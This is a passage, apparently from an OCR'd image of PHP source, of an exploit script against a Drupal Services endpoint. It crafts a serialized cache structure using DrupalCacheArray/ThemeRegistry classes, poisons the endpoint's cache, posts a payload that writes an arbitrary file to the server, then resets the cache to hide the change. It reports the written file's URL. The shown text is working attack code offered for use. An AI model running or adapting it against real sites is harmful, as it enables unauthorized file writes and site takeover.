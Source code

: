 ```php
                        'name' => 'filename',
                        'type' => 'string',
                        'description' => 'Path to the file',
                        'source' => ['data' => 'filename'],
                        'optional' => false,
                    ],
                    1 => [
                        'name' => 'data',
                        'type' => 'string',
                        'description' => 'The data to write',
                        'source' => ['data' => 'data'],
                        'optional' => false,
                    ],
                ],
                'file' => [
                    'type' => 'inc',
                    'module' => 'services',
                    'name' => 'resources/user_resource',
                ],
                'endpoint' => $settings
            ];
            $storage[$controller]['endpoint']['actions'] += [
                $action => [
                    'enabled' => 1,
                    'settings' => $settings
                ]
            ];
        }
        $this->storage = $storage;
        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
    }
}
class ThemeRegistry Extends DrupalCacheArray {
    protected $persistable;
    protected $completeRegistry;
}
cache_poison($endpoint, $cache);
# Write the file
$json = (array) $browser->post(TYPE_JSON, json_encode($file));
# Stage 3: Restore endpoint's behaviour
cache_reset($endpoint, $cache);
if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
{
    e("Failed to write file.");
}
$file_url = $url . '/' . $file['filename'];
x("File written: $file_url");
# HTTP Browser
class Browser
{
    private $url;
    private $controller = CONTROLLER;
    private $action = ACTION;

    function __construct($url)
    {
        $this->url = $url;
    }
    function post($type, $data)
    {
        $headers = [
            "Accept: " . TYPE_JSON,
            "Content-Type: $type",
```